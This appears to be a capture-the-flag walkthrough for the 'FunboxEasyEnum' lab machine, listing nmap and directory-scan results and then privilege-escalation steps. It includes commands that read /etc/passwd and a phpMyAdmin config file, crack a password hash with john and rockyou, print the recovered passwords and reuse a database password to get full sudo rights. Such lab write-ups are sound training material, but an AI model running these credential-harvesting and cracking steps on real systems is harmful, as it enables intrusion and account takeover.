 # FunboxEasyEnum

***

IP=192.168.240.132

## NMAP

| PORT   | STATE | SERVICE |
| ------ | ----- | ------- |
| 22/tcp | open  | ssh     |
| 80/tcp | open  | http    |

```perl
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```bash
/index.html           (Status: 200) 
/javascript           (Status: 301) 
/mini.php             (Status: 200)                                        
/robots.txt           (Status: 200)                                         
/phpmyadmin           (Status: 301) 
```

### File Upload



<figure><img src="../.gitbook/assets/Pasted image 20231023220428.png" alt=""><figcaption></figcaption></figure>

## PrivEsc

```bash
cat /etc/passwd
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```

```bash
echo '$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> oracle:hiphop

```bash
cat /etc/phpmyadmin/config-db.php
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
```

```bash
su karla
tgbzhnujm!
```

```bash
sudo -l

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```
